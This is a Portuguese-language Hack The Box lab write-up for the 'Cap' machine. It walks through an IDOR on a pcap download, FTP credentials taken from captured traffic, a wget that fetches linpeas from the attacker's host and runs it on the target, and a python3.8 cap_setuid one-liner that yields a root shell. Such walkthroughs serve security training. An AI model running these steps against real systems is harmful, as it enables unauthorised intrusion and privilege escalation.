






# HTB-Cap

Primeiro fiz um scan simples de porta que me exibiu a 3 portas abertas, tentei logar como anonymous  no ftp, mas não deu em nada, então parti pra analisar a aplicação web.

```jsx
~ nmap -sV -sC -T4 -Pn 10.129.50.145
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-29 11:29 -0400
Nmap scan report for 10.129.50.145
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Bom, aparatemente temos um dashboard de segurança



olhando as abas, temos esse dashboard que permite baixamos um pcap do trafego



olhando os pcaps na primeira vez perdi muito tempo analisando meus proprios pacotes, na segunda tentativa da maquina ja tomei cuidado gerando menos logs. mas no pcap que fiz download não tinha nada



então decidi explorar uma possibilidade de um idor, e boom, quando mudamos o parametro na url tambem alteramos o pcap, aparti disso comecei a enumerar os pcaps novos buscando algum dado util


perdi um bom tempo enumerando pra cima em vez de testar diretamente o parametro 0, mas aqui estamos nós, o pcap 0 é o que mais tinha numero de pacotes então fui verificar



e finalmente temos nosso pcap sorteado, nele temos alguns pacotes, ftp, mas ainda nada de relevante, então atualizei ele.



após atualizar apareceu mais alguns pacotes ftp, mas esses tinhamoque queriamos, senha e username. `nathan:Buck3tH4TF0RM3!`



logo fui logar no ftp, onde peguei a flag user, mas antes de submeter cutuquei um pouco o ftp e vi que tinha total acesso ao sistema por ele.

```jsx

  ~ ftp 10.129.51.16
Connected to 10.129.51.16.
220 (vsFTPd 3.0.3)
Name (10.129.51.16:justsomeone): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||25534|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Apr 30 02:06 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||6174|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |********************************************************************************************************************************|    33      181.04 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.23 KiB/s)
```

então baixei o user.txt que era a flag, mas decidi testar as mesmas credenciais no ssh e funcionou então peguei a flag user de lá e parti pra escalação de privilegio

```jsx
 ssh nathan@10.129.51.16
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
nathan@10.129.51.16's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Apr 30 03:43:07 UTC 2026

  System load:           0.01
  Usage of /:            36.7% of 8.73GB
  Memory usage:          34%
  Swap usage:            0%
  Processes:             240
  Users logged in:       1
  IPv4 address for eth0: 10.129.51.16
  IPv6 address for eth0: dead:beef::250:56ff:feb0:eff

  => There are 2 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Apr 30 03:15:00 2026 from 10.10.14.238
nathan@cap:~$
```

```jsx
nathan@cap:~$ cat user.txt
<FLAG>
```


decidi optar pelo linpeas pra buscar vetores de lpe, então na minha maquina entrei no diretorio dele, rodei um server http com python e na maquina alvo entrei no /tmp e dei um wget no meu endereço 

```jsx
 ~ linpeas

> peass ~ Privilege Escalation Awesome Scripts SUITE

/usr/share/peass/linpeas
├── linpeas_darwin_amd64
├── linpeas_darwin_arm64
├── linpeas_fat.sh
├── linpeas_linux_386
├── linpeas_linux_amd64
├── linpeas_linux_arm
├── linpeas_linux_arm64
├── linpeas.sh
└── linpeas_small.sh
  linpeas python -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
10.129.51.16 - - [29/Apr/2026 23:20:26] "GET /linpeas.sh HTTP/1.1" 200 -
```

```jsx
nathan@cap:~$ cd /tmp
nathan@cap:/tmp$ wget http://10.10.14.238:9091/linpeas.sh
nathan@cap:/tmp$ chmod +x linpeas.sh
nathan@cap:/tmp$ ./linpeas.sh 
```

rodando o linpeas achei o vetor de lpe nos capabilites 


```jsx
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

e assim peguei root bem rapidin. 

```jsx
nathan@cap:/tmp$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

assim que peguei root, entrei no diretorio /root e dei um cat na flag 

```jsx
root@cap:/root# cat root.txt
<FLAG>

```


maquina zerada.


[https://labs.hackthebox.com/achievement/machine/1411577/351](https://labs.hackthebox.com/achievement/machine/1411577/351)

**By Enzo Santana (0xEnzoSantana)**
